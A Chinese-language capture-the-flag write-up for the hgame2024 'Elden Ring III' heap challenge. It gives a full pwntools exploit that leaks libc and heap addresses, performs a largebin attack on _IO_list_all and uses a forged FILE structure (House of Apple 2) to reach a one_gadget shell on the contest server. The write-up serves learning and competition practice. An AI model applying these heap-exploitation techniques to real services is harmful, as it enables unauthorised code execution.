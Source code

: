 ```yaml
---
title: hgame2024 week3 - Elden Ring III
date: 2024/2/22 19:25:00
tags:
    - heap - largebin
    - largebin attack
    - House of Apple 2
    - libc2.32
---
```


*write some large notes*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

glibc 2.32  
反编译发现只能分配large bin，那就干脆学一下Largebin attack和House of Apple吧，
以后打高版本libc都要用到

我会在参考文献一栏列出优质的博客，没有它们，我不能做出这题！还有就是在打Apple的时候，
要想进入overflow分支，还需要伪造的IO_FILE里`_IO_write_ptr > _IO_write_base`

另，自glibc 2.38开始，调用链发生变化，`_IO_flsuh_all_lockp`已更名为`_IO_flsuh_all`，
但是apple2仍然能打，不影响

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering3')
        if lo & 2:
            gdb.attach(sh, gdbscript='b show_note')
    else:
        sh = remote('139.196.183.57', 30273)
    libc = ELF('eldering3s/libc.so.6')
    elf = ELF('eldering')

    def addn(idx:int, size:int):
        sh.sendlineafter(b'>', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())

    def deln(idx:int):
        sh.sendlineafter(b'>', b'2')
        sh.sendlineafter(b'Index', str(idx).encode())

    def edit(idx:int, content:bytes):
        sh.sendlineafter(b'>', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendafter(b'Content', content)

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'>', b'4')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recv(7)

    def withdraw(): # quit and exit is Python builtin functions
        sh.sendlineafter(b'>', b'5')

    # leak libc and heap
    addn(0, 0x600)
    addn(1, 0x600) # guard chunk (prevent consolidating)
    addn(2, 0x600)
    addn(3, 0x600) # guard chunk
    deln(0)        # fd is around libc in Unsorted bin
    edit(0, b'\n') # 1st char is 0, so we had to make the address leak-able
    ret = show(0)
    ret = b'\0' + ret[1:6]
    edit(0, b'\0') # restore original value
    deln(2)        # fd of chunk 2 is chunk 0
    heap = show(2)
    deln(3)
    deln(1)        # restore empty heap

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    ioListAll = libcBase + libc.symbols['_IO_list_all']
    wfileJumps = libcBase + libc.symbols['_IO_wfile_jumps']

    heapBase = u64(heap[:6] + b'\0\0') - 0x290
    success(f'\x1b[33mleak heapBase: {hex(heapBase)}\x1b[0m')

    # large bin attack
    fd = bk = libcBase + dumpArena + 0x4d0
    fdNext = heapBase + 0x290 # original values
    bkNext = ioListAll - 0x20 # write chunk 1 addr on _IO_list_all
    addn(0, 0x620)
    addn(15, 0x508)           # guard chunk
    addn(1, 0x610)
    addn(14, 0x508)           # guard chunk
    deln(0)                   # now in unsorted bin
    addn(2, 0x630)            # put chunk 0 in large bin
    deln(1)                   # now in unsorted bin
    edit(0, p64(fd) + p64(bk) + p64(fdNext) + p64(bkNext))
    addn(13, 0x630)           # put chunk 1 in large bin, trigger arbitrary write

    # house of apple 2
    forceChunk = heapBase + 0xdd0 # & chunk 1.prev_size
    fakeFile = FileStructure()    # _flags = 0, _IO_read_ptr = 0x621
    fakeFile.vtable = wfileJumps
    fakeFile._IO_write_ptr = 1
    fakeFile._wide_data = forceChunk + 0xe0
    # fakeFile._lock = lock
    fakeWideData = b'\0'*0xe0 + p64(forceChunk + 0xe0 + 0xe8) # 0xe0 bytes of 0 and _wide_vtable
    oneGadget = libcBase + 0xdf54f
    fakeWfileJumpTable = b'\0'*0x68 + p64(oneGadget)          # 0x68 bytes of 0 and __do_allocate
    # note that _flags and _IO_read_ptr is filled by chunk structure,
    # so we need to exclude them to keep the correct alignment
    edit(1, bytes(fakeFile)[16:] + fakeWideData + fakeWfileJumpTable)

    withdraw()
    sh.clean()
    sh.interactive()
```

## 参考文献

1. [Largebin Attack典例](https://www.anquanke.com/post/id/244018)
2. [House of Apple 2官方示例](https://bbs.kanxue.com/thread-273832.htm)
3. [House of Apple 2实操&调用链](https://ywhkkx.github.io/2022/11/10/House%20Of%20Apple-2.34-64/)

